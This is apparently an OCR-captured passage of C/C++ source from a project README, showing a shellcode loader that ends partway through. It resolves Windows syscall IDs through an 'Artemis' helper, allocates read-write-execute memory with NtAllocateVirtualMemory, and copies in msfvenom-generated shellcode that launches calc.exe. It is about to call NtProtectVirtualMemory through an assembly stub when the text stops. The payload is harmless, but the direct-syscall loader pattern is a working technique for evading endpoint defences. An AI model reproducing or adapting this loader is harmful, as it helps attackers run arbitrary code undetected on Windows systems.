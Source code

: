 ```c
  

extern "C" void jumper(UINT64* location);

Artemis artemis; // Declare Artemis Class
int syscallID = artemis.controller("NtProtectVirtualMemory");

int main() {
  
    PVOID baseAddress = nullptr;
    SIZE_T regionSize = 4096;
    DWORD allocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD protect = PAGE_EXECUTE_READWRITE;

  

    // Get the process handle for the current process
    HANDLE processHandle = GetCurrentProcess();

    // Call the NtAllocateVirtualMemory function from the assembly code
    NTSTATUS vpStatus = NtAllocateVirtualMemory(
        processHandle, &baseAddress, 0, &regionSize, allocationType, protect

    );
 
    if (vpStatus == 0) {
        std::cout << "Allocated memory at: " << baseAddress << std::endl;
    } else {
        std::cout << "Memory allocation failed. Status: 0x" << std::hex << vpStatus << std::endl;
    }

	printf("Base Address of VirtualAlloc: %p", baseAddress);

    // x64 calc.exe cmd from msfvenom
    // Please NEVER trust shellcode online and generate your own payload!
    // msfvenom --platform windows --arch x64 -p windows/x64/exec CMD=calc.exe -f c
    unsigned char buf[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
        "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
        "\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
        "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
        "\x63\x2e\x65\x78\x65\x00";

    *(UINT64*)baseAddress = *buf;
    memcpy(baseAddress, buf, sizeof(buf));  // copy into allocated mem location

    // Call the NtProtectVirtualMemory syscall from the assembly file and pass extracted syscall id as param
    ULONG oldProtect;
```